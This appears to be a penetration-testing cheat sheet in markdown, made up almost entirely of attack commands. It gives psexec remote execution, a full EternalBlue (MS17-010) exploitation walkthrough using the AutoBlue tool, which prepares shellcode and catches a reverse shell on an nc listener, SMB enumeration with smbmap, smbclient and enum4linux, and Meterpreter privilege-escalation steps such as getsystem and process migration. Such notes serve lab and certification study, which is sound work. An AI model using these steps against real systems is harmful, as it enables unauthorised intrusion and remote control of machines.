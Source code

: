 #### PSEXEC
```bash
psexec.py <USER>@<TARGET_IP> cmd.exe

## Manual Exploit - AutoBlue
cd
mkdir tools
cd /home/kali/tools
sudo git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git 
cd AutoBlue-MS17-010
pip install -r requirements.txt

cd shellcode
chmod +x shell_prep.sh
./shell_prep.sh
# LHOST = Host Kali Linux IP
# LPORT = Port Kali will listen for the reverse shell

nc -nvlp 1234 # On attacker VM

cd ..
chmod +x eternalblue_exploit7.py
python eternalblue_exploit7.py <TARGET_IP> shellcode/sc_x64.bin
```

# SAMBA

```bash
# SAMBA
smbmap -u <USER> -p '<PW>' -H <TARGET_IP>

smbclient -L <TARGET_IP> -U <USER>

enum4linux -a <TARGET_IP>
enum4linux -a -u "<USER>" -p "<PW>" <TARGET_IP>
```

#Meterpreter

```bash
getuid
sysinfo
getprivs
getsystem

##Windows
pgrep lsass
migrate <explorer_PID>
getprivs

``

# FILE

```bash
#read contents of text embedded within the binary
#strings <binary name> in a shell
strings welcome

```
